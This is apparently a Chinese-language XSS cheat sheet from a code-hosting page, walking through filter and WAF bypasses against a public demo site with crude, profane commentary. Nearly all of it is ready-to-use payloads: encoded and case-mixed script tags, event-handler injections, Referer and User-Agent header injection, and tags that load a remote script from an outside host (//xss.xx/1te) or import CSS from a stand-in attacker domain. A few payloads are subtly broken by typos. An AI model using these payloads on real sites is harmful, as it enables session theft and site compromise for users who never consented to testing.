 # XSS之王xidaner
> 详细代码请转常用代码篇，有很多代码分析和实例，此片仅供思路。
靶场：
http://demo.testfire.net/search.jsp?query=1

## **直接x他，x他🐎的！**

首先先打个`<a>,<b>`试试看，康康到底能不能输入一个框啊什么的，试试水对吧。在确定了可以在页面加入一个`<b>`或者一个`<a>`然后尝试后者：


就直接尝试xss语句，虽然90%不行，但是万一呢？对吧！

```
<script>alert('xss');</script>
```



## **如果有过滤**

输入：
```
< > ' " = ; 
```
字符查看一下，那些被过滤了，那些被转义了，那些被删除了。


## 首先 构造一个payload

首先一个`xss payload`基本有以下几部分组成

[TAG]填充标签img svg video button...
[ATTR]=Something 填充一些非必要的属性 src=1 xmlns="jp.pornhub.com/"(a君：`兄弟借一步说话`GKDGKD)

[EVENT]填充事件属性onerror onload...
[PAYLOAD]填充JavaScript代码alert(1) top.alert(1)...

大体可以理解为：
```h
<[TAG]    [ATTR]=  sth    [EVENT]   =   [PAYLOAD] />
 标签头    属性     事件   事件属性        代码
```



## **大小写混写，双写绕过**

当一些敏感标签，如`script,img`中间被截断或者删除，可以尝试大小写混写，或者双写绕过:
```
<sCrIpT><>
<Imimgg><>
```




## **尝试闭合标签**

输入没什么过滤，但是无法直接弹窗可以尝试闭合标签然后使xss生效
比如：
```
"> <script>alert(1);</script>
```

## **如何绕过**

### **16进制编码绕过**
将XSS语句经过16进制编码转换来绕过XSS的规则。

列:
```
<script>alert(1)</script>
```
可以转换为
```
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%78%73%73%22%29%3b%3c%2f%73%63%72%69%70%74%3e
```

## **绕过PHP自带的安全设置**

在php中设置为`magic_quotes_gpc=ON`中安全设置开启，开启后会吧一些特殊字符进行转换，比如：`把'(单引号)转化为：`\`,双引号`"`转换为：``\"``

> 我们可以通过javascript中的`String.fromCharCode`方法来绕过

可以输入为：
```
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88,83, 83, 34, 41, 59)</script>
```

## **利用html标签属性值执行XSS**
很多HTML标记中的属性都支持JavaScript脚本，所以我反手给你个xss你怎么说？上号：
```
<img src = "javascript:alert(‘xss‘);">
```
其中只要执行了js代码就可以弹窗，如果引用文件都可以绕过`<>`





## **使用空格，TAB，回车，js编码绕过**
如果过滤时对`JavaScript`进行了过滤，得益于JS代码的**优秀体制**(**该用谁心理有B数了8**)只需要对js做小小的操作即可绕过：
```
<img src= "java　　script:alert(‘xss‘);" width=100>
```
或者：
```
<img src= "javascript:  alert(/xss/);" width=100>
```

或者：
```
<a herf="javascr&#69pt:alert(1)">



```

## **利用CSS跨站解析**
大概就是去在文章引入的CSS中加入一串XSS代码，应为CSS不用嵌入到html中，可以直接从文件或其他地方进行引用。
`但是 浏览器之间不能通用`
```
<div style = "list-style-image:url(javascript:alert(‘xSS‘))">

<link rel = "stylesheet" href ="http://www.xxx.com/atack.css">

<style type=‘text/css‘>@import url(http://www.xxx.com/xss.css);</style>

<style>@import ‘javascript:alert(‘xss‘);‘</style>
```

## **利用字符编码**
利用16进制转换，或者ASCII表转换来进行xss
```
<script>eval("\61\6c\65......");<script>
```

## **尝试在请求包中输入值查看是否被带入数值**

在请求值中尝试加入referer值

```
Referer: aaaa" type="text" onclick="alert(1)"
```
尝试在User-Agent等值中输入值查看是否能够带入数值

```
user=" type="text" onclick="alert(1)"
```

## **构造payload(采用%0a绕过空格过滤)**
如果过滤了`script、/、与空格`
在url中直接加入`%0a`绕过空格过滤，解析出来不一样吗，火狐他不香吗？
```
http://127.0.0.1/xss/level16.php?keyword=<img%0asrc=1%0aonerror=alert(1)>
```

## **如果过滤了双引号和尖括号**
html`实体编码`来过滤尖括号和双引号也是属于编码绕过的一种，测试只有火狐可以实现(A君：谷歌你🐎死了)
```
http://IP/xss/level17.php?arg01=a&arg02=b onmouseover=alert(1)

```

当在url输入被过滤等因素后，可以尝试在输入框中加入`js代码`并使用js实体绕过:

**js实体编码**

javascrip&#x74;:alert(1) 十六进制
javascrip&#116;:alert(1) 十进制


## [**绕WAF**](https://xz.aliyun.com/t/6652)
当你兴致*勃勃* 输入了第一串代码`<b>`,欸？我日你妈 D盾，创宇盾拦截，百度云盾拦截。小逼崽子**D盾**三天之内祝你**心想事成！** 

> D盾还好，只是拦截，你还可以FUZZ,创宇盾直接给你ip封了，md我搞你还要准备几十个ip？

不常见标签

XSSfuzz生成器:https://github.com/NytroRST/XSSFuzzer/blob/master/fuzzer.html

```html
<details> <button> <select> <keygen> <textarea>等等
```

从网上收集的几个payload:
```html

<details open ontoggle=prompt(1)>
      <details open ontoggle=prompt(1)>
      <button onfocus=prompt(1) autofocus>
      <select autofocus onfocus=prompt(1)>

 <input autofocus onfocus=s=createElement("scriPt");body . appendChild(s);s.src="//xss.xx/1te">

 <keygen autofocus onfocus =s=createElement("scriPt" );body . appendchild(s);s. src="//xss.xx/1te">

<textarea autofocus onfocus=s=createElement("scriPt"); bady appendChild(s);s.src="//xss.xx/1te">

<video onkeyup=setTimeout`al\x65rt\x28/2/\x29```>

<svg src=1 onload=alert(1) />
<svg value=1 onload=alert(1) />
<video value=1 onerror=alert(1) />

```





